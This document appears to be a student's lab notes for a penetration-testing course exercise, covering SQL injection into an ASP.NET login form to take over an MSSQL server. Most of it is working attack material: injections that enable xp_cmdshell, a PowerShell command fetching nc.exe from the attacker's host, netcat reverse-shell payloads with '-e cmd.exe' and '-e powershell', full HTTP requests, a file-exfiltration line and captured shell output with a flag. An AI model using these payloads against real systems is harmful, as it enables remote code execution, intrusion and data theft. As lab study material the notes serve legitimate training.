

https://medium.com/@alokkumar0200/owning-a-machine-using-xp-cmdshell-via-sql-injection-manual-approach-a380a5e2a340

https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

lets start again
https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/



```
Kyberpalomies — 05/24/2024 4:57 AM
I am struggling with 10.3.2 Q7. I have found the vulnerable parameter Username. And I have performed the following injections ';EXEC sp_configure 'show advanced options', 1;-- , ';RECONFIGURE;-- , ';EXEC sp_configure 'xp_cmdshell', 1;-- , ';RECONFIGURE;-- , 'EXECUTE xp_cmdshell 'powershell.exe wget http://192.168.45.188/nc.exe -OutFile c:\windows\temp\nc.exe';--. I successfully uploaded the nc.exe using python -m http.server 80. I have been trying to execute the nc.exe with ';EXEC xp_cmdshell "c:\windows\temp\nc.exe 192.168.45.188 4444 -e powershell";-- but no success with nc listener. What I am missing?
```

Now it is working

`';EXEC sp_configure 'show advanced options', 1;--`

`';RECONFIGURE;--`

`';EXEC sp_configure 'xp_cmdshell', 1;--`

`';RECONFIGURE;--`

Testing access
`'EXECUTE xp_cmdshell 'powershell.exe wget http://192.168.45.212:80';--`

Testing with netcat
`'EXECUTE xp_cmdshell 'powershell.exe wget http://192.168.45.212:443/nc.exe -OutFile c:\windows\temp\nc.exe';--`

Final Payload
`';EXEC xp_cmdshell "c:\windows\temp\nc.exe 192.168.45.212 4444 -e powershell";--`

`';EXEC xp_cmdshell "c:\windows\temp\nc.exe 192.168.45.212 4444";--`

`_C:\Users\Administrator> nc.exe 192.168.119.201 4444 < “C:\Users\xyz\winpeas.txt”_`

meterpreter
https://www.sciencedirect.com/topics/computer-science/meterpreter-shell

None of them worked!

Using netcat for windows

### Uploading netcat

Got from:  https://github.com/int0x33/nc.exe/

Payload `'EXECUTE xp_cmdshell 'powershell.exe wget http://192.168.45.212:443/nc.exe -OutFile c:\windows\temp\nc.exe';--`

Full Request
```
POST /login.aspx HTTP/1.1
Host: 192.168.164.50
Content-Length: 539
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.164.50
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.164.50/login.aspx
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

__VIEWSTATE=%2FwEPDwUKMjA3MTgxMTM4N2Rkqwqg%2FoL5YGI9DrkSto9XLwBOyfqn9AahjRMC9ISiuB4%3D&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=%2FwEdAAS%2FuzRgA9bOZgZWuL94SJbKG8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb6wkDVQ%2BfPh1lhuA2bqiJXDjQ9KzSeE6SutA98NNH%2BM50%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox='EXECUTE xp_cmdshell 'powershell.exe wget http://192.168.45.212:443/nc.exe -OutFile c:\windows\temp\nc.exe';--&ctl00%24ContentPlaceHolder1%24PasswordTextBox=&ctl00%24ContentPlaceHolder1%24LoginButton=Login
```

### Windows OS Shell with netcat

Payload: `';EXEC xp_cmdshell "c:\windows\temp\nc.exe 192.168.45.212 4444 -e cmd.exe";--`

Full Request
```
POST /login.aspx HTTP/1.1
Host: 192.168.164.50
Content-Length: 506
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.164.50
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.164.50/login.aspx
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

__VIEWSTATE=%2FwEPDwUKMjA3MTgxMTM4N2Rkqwqg%2FoL5YGI9DrkSto9XLwBOyfqn9AahjRMC9ISiuB4%3D&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=%2FwEdAAS%2FuzRgA9bOZgZWuL94SJbKG8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb6wkDVQ%2BfPh1lhuA2bqiJXDjQ9KzSeE6SutA98NNH%2BM50%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox=';EXEC xp_cmdshell "c:\windows\temp\nc.exe 192.168.45.212 4444 -e cmd.exe";--&ctl00%24ContentPlaceHolder1%24PasswordTextBox=&ctl00%24ContentPlaceHolder1%24LoginButton=Login
```


Listening 
`nc -vlp 4444`

```
Microsoft Windows [Version 10.0.20348.740]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress

C:\Windows\system32>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB0-F9D1

 Directory of C:\Windows\system32
```

```
C:\Windows\system32>type C:\inetpub\wwwroot\flag.txt
type C:\inetpub\wwwroot\flag.txt
OS{64c8c15381fd9efb43a1ef4075c578ac}
```


It worked as well with powershell
`;EXEC xp_cmdshell "c:\windows\temp\nc.exe 192.168.45.188 4444 -e powershell";--`
